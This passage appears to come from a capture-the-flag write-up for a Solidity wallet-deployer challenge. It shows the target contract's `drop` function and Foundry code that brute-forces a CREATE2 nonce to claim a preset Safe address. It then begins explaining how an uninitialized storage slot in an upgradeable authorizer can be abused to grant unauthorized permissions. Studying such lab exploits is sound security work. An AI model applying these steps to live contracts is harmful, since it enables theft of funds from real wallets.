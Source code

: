 The `WalletDeployer` contract provides a `drop` function that deploys a new Safe wallet using a nonce, as shown below:

```solidity
function drop(address aim, bytes memory wat, uint256 num) external returns (bool) {
    if (mom != address(0) && !can(msg.sender, aim)) {
        return false;
    }

    if (address(cook.createProxyWithNonce(cpy, wat, num)) != aim) {
        return false;
    }

    if (IERC20(gem).balanceOf(address(this)) >= pay) {
        IERC20(gem).transfer(msg.sender, pay);
    }
    return true;
}
```

To deploy a `Safe` wallet at the address `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b`, we first need to determine the correct nonce. This can be done using `vm.computeCreate2Address` to calculate the contract address before deployment. By providing the `salt` (calculated similarly to how it's done in the SafeProxyFactory contract), the `initCodeHash`, and the `deployer` address, we can compute and compare the result with `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b` to find the correct nonce:

```solidity
address[] memory walletOwners = new address[](1);
walletOwners[0] = user;
bytes memory initializer =
    abi.encodeCall(Safe.setup, (walletOwners, 1, address(0), "", address(0), address(0), 0, payable(0)));

uint256 saltNonce;
address target;
bytes32 initCodeHash =
    keccak256(abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(address(singletonCopy)))));
while (target != USER_DEPOSIT_ADDRESS) {
    saltNonce++;
    bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), saltNonce));
    target = vm.computeCreate2Address(salt, initCodeHash, address(proxyFactory));
}
```

However, the `drop` function only permits authorized addresses to perform deployments. Thus, we need a way to grant ourselves authorization.

In the `AuthorizerUpgradeable` contract, the first storage slot is used for the `needsInit` variable:

```solidity
contract AuthorizerUpgradeable {
    uint256 public needsInit = 1;

    ...

    constructor() {
        needsInit = 0; // freeze implementation
    }

    function init(address[] memory _wards, address[] memory _aims) external {
        require(needsInit != 0, "cannot init");
        for (uint256 i = 0; i < _wards.length; i++) {
            _rely(_wards[i], _aims[i]);
        }
        needsInit = 0;
```